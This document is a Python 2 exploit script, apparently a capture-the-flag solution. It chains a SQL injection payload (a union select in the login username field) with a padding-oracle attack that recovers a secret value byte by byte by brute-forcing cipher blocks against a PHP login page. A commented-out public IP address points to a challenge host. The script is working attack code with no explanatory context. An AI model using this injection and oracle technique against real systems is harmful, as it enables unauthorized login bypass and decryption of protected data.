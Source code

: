 <span class="hljs-keyword">import</span> time
<span class="hljs-comment"># url='http://218.2.197.235:23737/'</span>
url=<span class="hljs-string">'http://127.0.0.1/2.php'</span>
N=<span class="hljs-number">16</span>
phpsession=<span class="hljs-string">""</span>
ID=<span class="hljs-string">""</span>
<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">inject1</span><span class="hljs-params">(password)</span>:</span>
    param={<span class="hljs-string">'username'</span>:<span class="hljs-string">"' union select 'action','{password}"</span>.format(password=password),<span class="hljs-string">'password'</span>:<span class="hljs-string">''</span>}
    result=requests.post(url,data=param)
    <span class="hljs-comment">#print result.content</span>
    <span class="hljs-keyword">return</span> result

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">inject_token</span><span class="hljs-params">(token)</span>:</span>
    header={<span class="hljs-string">"Cookie"</span>:<span class="hljs-string">"PHPSESSID="</span>+phpsession+<span class="hljs-string">";token="</span>+token+<span class="hljs-string">";ID="</span>+ID}
    result=requests.post(url,headers=header)
    <span class="hljs-keyword">return</span> result

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">xor</span><span class="hljs-params">(a, b)</span>:</span>
    <span class="hljs-keyword">return</span> <span class="hljs-string">""</span>.join([chr(ord(a[i])^ord(b[i%len(b)])) <span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> xrange(len(a))])

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">pad</span><span class="hljs-params">(string,N)</span>:</span>
    l=len(string)
    <span class="hljs-keyword">if</span> l!=N:
        <span class="hljs-keyword">return</span> string+chr(N-l)*(N-l)

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">padding_oracle</span><span class="hljs-params">(N,cipher)</span>:</span>
    get=<span class="hljs-string">""</span>
    <span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> xrange(<span class="hljs-number">1</span>,N+<span class="hljs-number">1</span>):
        <span class="hljs-keyword">for</span> j <span class="hljs-keyword">in</span> xrange(<span class="hljs-number">0</span>,<span class="hljs-number">256</span>):
            padding=xor(get,chr(i)*(i-<span class="hljs-number">1</span>))
            c=chr(<span class="hljs-number">0</span>)*(<span class="hljs-number">16</span>-i)+chr(j)+padding+cipher
            <span class="hljs-keyword">print</span> c.encode(<span class="hljs-string">'hex'</span>)
            result=inject1(base64.b64encode(chr(<span class="hljs-number">0</span>)*<span class="hljs-number">16</span>+c))
            <span class="hljs-keyword">if</span> <span class="hljs-string">"ctfer"</span> <span class="hljs-keyword">not</span> <span class="hljs-keyword">in</span> result.content:
                <span class="hljs-keyword">print</span> result.content,c.encode(<span class="hljs-string">'hex'</span>)
                get=chr(j^i)+get
                time.sleep(<span class="hljs-number">0.1</span>)
                <span class="hljs-keyword">break</span>
    <span class="hljs-keyword">return</span> get
